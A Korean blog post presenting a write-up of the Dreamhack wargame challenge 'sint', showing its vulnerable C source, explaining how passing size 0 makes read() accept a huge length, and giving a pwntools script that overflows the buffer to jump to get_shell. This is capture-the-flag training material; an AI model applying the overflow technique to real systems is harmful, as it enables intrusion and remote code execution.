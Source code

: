 ```yaml
---
layout: post
title: Dreamhack | sint
subtitle: Dreamhack-Pwnable sint
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/197375925-9c65298b-94ea-4c93-a528-a1a9be80abe9.jpg" width = 500>
</p>

이 문제는 **Integer Issues**라 하는 Reference를 가지고 있고 보호기법으로 보면 NX bit만 활성화 되어 있는 것을 알 수 있다. 

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();
    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

이 코드에서는 `get_shell`을 통한 `system` 호출이 가능하다.

```C
if (size > 256 || size < 0)
{
   printf("Buffer Overflow!\n");
   exit(0);
}
```

`size`라는 변수를 int형으로 입력 받아 256보다 크거나 0보다 작으면 프로그램이 종료된다.

```C
printf("Data: ");
read(0, buf, size - 1);
```

우리가 입력받은 size보다 1만큼 작게 Data를 입력받아 `buf[256]`에 저장하는 것을 알 수 있다.

`size`변수는 int형으로 맨 앞 자리는 부호를 설정하는 값이다. 즉 -2^31 ~ 2^31-1의 범위를 가지게 된다. 

`size`가 0이고 -1을 하게 되면 컴퓨터는 2의 보수를 취해 값을 변경하게 된다.

따라서, `size - 1`를 2진수로 표현하면 **1111 1111 1111 1111**, 엄청 큰 값을 가지게 된다.

* **read 함수**

```C
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t nbytes);
```

입력받는 크기에 해당 형은 `size_t`로 unsigned int로 부호없는 정수형이다. 즉, 2의 보수처럼 맨 앞 자리가 부호를 뜻하지 않게 된다는 것이다.

그래서 `size - 1`의 2진수의 값을 매우 큰 값으로 받아드려 BOF가 가능하게 된다.

`system`을 불러오는 `get_shell`함수도 존재하므로, 전체 크기 **0x104** + **SFP 4byte** + **get_shell 주소**로 payload를 전송하면 해결이 가능하다.

```python
from pwn import *

# p = process('./sint')
p = remote('host3.dreamhack.games', port)
elf = ELF('./sint')

get_shell = elf.symbols['get_shell']
payload = b''

p.recvuntil('Size: ')
p.sendline('0')

payload += b'A' * 0x108 + p32(get_shell)
p.recvuntil('Data: ')
p.send(payload)

p.interactive()
```